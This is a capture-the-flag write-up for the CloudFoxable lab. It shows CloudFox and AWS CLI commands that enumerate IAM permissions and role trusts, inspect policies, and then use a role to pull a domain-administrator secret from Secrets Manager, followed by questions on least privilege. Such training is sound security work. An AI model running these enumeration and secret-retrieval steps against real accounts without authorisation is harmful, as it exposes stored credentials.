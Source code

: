 
# 🔐 CloudFoxable Challenge: Retrieving AWS Secrets Manager Flag

## 🧾 Overview

In this CloudFoxable challenge, the task was to identify and assume an AWS IAM role capable of retrieving a specific secret from AWS Secrets Manager named `DomainAdministrator-Credentials`. The challenge simulated a real-world cloud penetration test scenario, focusing on enumerating permissions, analyzing IAM role trust relationships, and leveraging AWS CLI tools to escalate privileges and retrieve sensitive information (flag).

---

## 🎯 Objectives

- Discover IAM roles with access to the targeted Secrets Manager secret.
- Analyze IAM trust relationships to identify role assumption opportunities.
- Inspect IAM policies to confirm permissions explicitly granted.
- Assume an IAM role based on trust policy analysis.
- Retrieve the secret's value (flag) using AWS CLI.

---

## 🚩 Solution Steps

The following commands and methodology were used step-by-step to successfully retrieve the flag:

### ✅ Step 1: Enumerate Permissions (CloudFox)

```bash
cloudfox aws -p cloudfoxable permissions -v2 | grep -i secret
```

**Expected Output:**

```
Role │ Alexander-Arnold │ Allow │ secretsmanager:GetSecretValue │ arn:aws:secretsmanager:us-west-2:495804826271:secret:DomainAdministrator-Credentials-qc9Cvn
```

---

### ✅ Step 2: Analyze IAM Trust Relationships (CloudFox)

```bash
cloudfox aws -p ashish_security role-trusts -v2
```

**Expected Output:**

```
Role: Alexander-Arnold
Trusts: arn:aws:iam::495804826271:user/ctf-starting-user
```

---

### ✅ Step 3: List Attached IAM Policies (AWS CLI)

```bash
aws --profile cloudfoxable iam list-attached-role-policies --role-name Alexander-Arnold
```

**Expected Output:**

```json
{
  "AttachedPolicies": [
    {
      "PolicyName": "corporate-domain-admin-password-policy",
      "PolicyArn": "arn:aws:iam::495804826271:policy/corporate-domain-admin-password-policy"
    }
  ]
}
```

---

### ✅ Step 4: Retrieve IAM Policy Metadata (AWS CLI)

```bash
aws --profile cloudfoxable iam get-policy --policy-arn arn:aws:iam::495804826271:policy/corporate-domain-admin-password-policy
```

**Expected Output:**

```json
{
  "Policy": {
    "PolicyName": "corporate-domain-admin-password-policy",
    "Arn": "arn:aws:iam::495804826271:policy/corporate-domain-admin-password-policy",
    "DefaultVersionId": "v1",
    "AttachmentCount": 1,
    "IsAttachable": true,
    "CreateDate": "2025-03-05T22:48:54+00:00",
    "UpdateDate": "2025-03-05T22:48:54+00:00"
  }
}
```

---

### ✅ Step 5: Confirm IAM Policy Permissions (AWS CLI)

```bash
aws --profile cloudfoxable iam get-policy-version \
  --policy-arn arn:aws:iam::495804826271:policy/corporate-domain-admin-password-policy \
  --version-id v1
```

**Expected Output:**

```json
{
  "PolicyVersion": {
    "Document": {
      "Statement": [
        {
          "Action": ["secretsmanager:GetSecretValue"],
          "Effect": "Allow",
          "Resource": [
            "arn:aws:secretsmanager:us-west-2:495804826271:secret:DomainAdministrator-Credentials-qc9Cvn"
          ]
        }
      ],
      "Version": "2012-10-17"
    },
    "VersionId": "v1",
    "IsDefaultVersion": true,
    "CreateDate": "2025-03-05T22:48:54+00:00"
  }
}
```

---

### ✅ Step 6: Assume IAM Role & Retrieve the Secret (Flag)

```bash
aws --profile Alexander-Arnold secretsmanager get-secret-value \
  --secret-id arn:aws:secretsmanager:us-west-2:495804826271:secret:DomainAdministrator-Credentials-qc9Cvn \
  --region us-west-2
```

✅ **Expected Output:**

```json
{
  "Name": "DomainAdministrator-Credentials-qc9Cvn",
  "SecretString": "{\"username\":\"admin\",\"password\":\"flag{your-flag-here}\"}"
}
```

---

## ❓ Analysis Questions

1. **Why did we need to inspect both permissions and role trust policies?**  
   To ensure we could not only identify which role had access to the secret but also verify that our user could assume the role.

2. **What happens if a role's trust policy is overly permissive?**  
   It can lead to privilege escalation risks by allowing unintended principals to assume sensitive roles.

3. **Why is explicitly specifying resources in IAM policies important?**  
   It prevents unintended access to unrelated or sensitive resources, minimizing security risks.

4. **Can a user assume an IAM role without explicit `sts:AssumeRole` permission in their policy?**  
   Yes, if the role's trust policy explicitly names the user or their ARN as a trusted principal.

5. **How does using tools like CloudFox help improve cloud security posture?**  
   CloudFox helps quickly identify permissions and trust policy misconfigurations, enabling proactive security hardening and effective penetration testing.

---

## ✅ Conclusion

Through careful enumeration, policy analysis, and leveraging AWS CLI and CloudFox tools, we successfully demonstrated a realistic AWS IAM security scenario: identifying a secret, mapping out access permissions, validating role assumption possibilities, and retrieving the sensitive data (flag).

The exercise highlights crucial AWS security principles, including the separation of permissions and trust policies, the principle of least privilege, and the importance of comprehensive cloud security testing.

---

### 📚 References & Tools

- **CloudFox:** [https://github.com/BishopFox/cloudfox](https://github.com/BishopFox/cloudfox)
- **AWS CLI IAM Documentation:** [AWS IAM CLI](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/iam/index.html)
- **AWS Secrets Manager CLI:** [AWS Secrets Manager CLI](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/secretsmanager/index.html)

---

*Prepared by: Ashish Gurau*  
*Cloud Security & IAM Enumeration Walkthrough*
